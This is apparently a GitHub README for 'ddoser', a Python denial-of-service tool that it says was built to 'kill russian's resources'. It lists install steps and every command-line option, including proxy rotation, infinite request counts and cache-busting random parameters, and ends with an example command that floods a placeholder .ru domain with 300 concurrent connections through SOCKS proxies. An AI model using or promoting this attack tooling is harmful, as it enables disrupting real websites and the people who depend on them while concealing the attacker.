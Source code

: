 # The ddoser
Small application for ddos attack, was developed special for kill russian's resources :)  
## Install 
```shell
pip install -r requirements.txt
```
## Run
```shell
Usage: ddoser.py [OPTIONS]

  Run ddoser

Options:
  --target-url TEXT        ddos target url
  --target-urls-file TEXT  path to file contains urls to ddos
  --proxy-url TEXT         url to proxy resourse
  --proxy-file TEXT        path to file with proxy list
  --concurrency INTEGER    concurrency level
  --count INTEGER          requests count (0 for infinite)
  --timeout INTEGER        requests timeout
  --verbose                Show verbose log
  --with-random-get-param  add random get argument to prevent cache usage
  --user-agent TEXT        custom user agent
  --log-to-stdout          log to console
  --help                   Show this message and exit.
```
proxy-file or proxy-url should contain proxy list in format like:
```text
ip1:port1#sock5
ip2:port2#sock4
...
ipN:portN#sock4
```
### Example cmd
```shell
./ddoser.py --target-url https://some-domain.ru/ --concurrency 300 --timeout 60 --proxy-file proxy.list --count 0
```
## Note
**ddoser** supports only sock proxy, also can start it directly without proxy
